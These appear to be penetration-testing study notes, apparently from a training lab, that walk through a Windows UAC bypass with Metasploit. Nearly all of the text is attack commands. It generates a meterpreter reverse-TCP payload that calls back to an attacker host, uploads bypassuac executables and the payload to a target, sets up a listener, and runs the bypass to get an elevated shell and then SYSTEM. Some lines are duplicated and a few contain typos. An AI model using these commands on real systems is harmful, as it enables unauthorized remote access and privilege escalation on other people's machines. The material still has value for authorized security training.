






Metasploit executables exploits
ls -la /usr/share/metasploit-framework/data/post/

We need to use one of the bypassUAC executable exploits in combination with a payload that span a reverse shell to us.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP_attacker_interface] LPORT=4443 -f exe -o "/home/kali/Desktop/payload.exe"

Change the directory of the target to one where we can write
meterpreter> cd C:\\Users\\[USER]\\Desktop
Upload exploit
upload /usr/share/metasploit-framework/data/post/bypassuac-x86.exe .

Upload payload
upload /home/kali/Desktop/payload.exe .

Before fire the Exploit and payload set up a listener on the attacker
msf> use exploit/multi/handler
msf> set payload windows/meterpreter/reverse_tcp
msf> set lhost [attacker_ip]
msf> set lport [attacker_port]
msf> run -j
msf> set payload windows/meterpreter/reverse_tcp
msf> set lhost [attacker_ip]
msf> set lport [attacker_port]
msf> run -j

Fire the Bypass exploits
msterpreter> shell
C:\> bypassuac-x64.exe elevate /c C:\Users\eLS\Desktop\payload.exe
C:\> bypassuac-x64.exe elevate /c C:\Users\eLS\Desktop\payload.exe

Now we ca use "getsystem" elevation technique
